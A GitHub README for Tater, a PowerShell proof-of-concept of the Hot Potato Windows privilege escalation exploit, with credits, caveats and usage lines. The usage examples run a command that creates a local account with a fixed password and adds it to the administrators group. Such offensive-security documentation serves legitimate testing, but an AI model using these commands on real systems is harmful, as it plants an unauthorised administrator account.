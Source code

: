 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit. Tater is mainly pieced together from existing Inveigh code.   

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
Use caution, this is still very much in a proof of concept stage. It’s only been tested on Windows 7. It's also missing some of the advanced features found in Potato. 
  
The most likely thing to go wrong is that the HTTP listener will not release the port 80 binding on exit. If this happens, closing out your PowerShell process will remove the binding.     

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add" –RunTime 10   

# Screenshot
![tater](https://cloud.githubusercontent.com/assets/5897462/12635560/91220656-c552-11e5-96a2-1e5a2901404f.PNG)
